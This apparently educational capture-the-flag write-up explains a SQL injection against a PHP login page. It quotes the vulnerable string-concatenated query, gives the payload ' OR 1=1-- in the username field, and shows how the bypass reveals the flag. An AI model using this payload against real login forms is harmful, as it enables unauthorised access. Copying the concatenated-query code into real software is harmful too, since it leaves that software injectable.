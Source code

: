 

# SQL injection CTF

We started by reading the code in the file index.php.

We identified that this SQL query is executed every time a user tries to login.

```php
$query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```
The username and the password are directly given by user input. In fact, the password is not even encrypted when making the query.
```php
$username = $_POST['username'];
$password = $_POST['password'];
```
This means that we can manipulate both username and password in order to execute different than expected SQL queries.

We simply used the username field to manipulate the query and gave this input:
```
username: ' OR 1=1--
password: abc
```
The password does not make a difference, but since the HTML password field is required, we just gave it a random value.

The actual SQL query that is executed on the database is:
```sql
SELECT username FROM user WHERE username = '' OR 1=1--' AND password = 'abc'
```

This query returns the usernames of all users in the table `user` since the condition `1=1` is always true.

Since the only verification done is that the query returns something, we can use this to login as a user.
```php
if ($result = $conn->query($query)) {
```

If we are logged in, we will have access to the flag. Indeed, the flag is stored in the file flag.txt, which is included in the index.php file if the user is logged in.
```php
include "/flag.txt";
```

So, after using this exploit, we get the flag.
| Input | Flag |
|:-:|:-:|
| <img width="500" height="200" src="screenshots/w8/ctf/input_ctf_sqli.png"> | <img width="500" height="200" src="screenshots/w8/ctf/flag_ctf_sqli.png"> |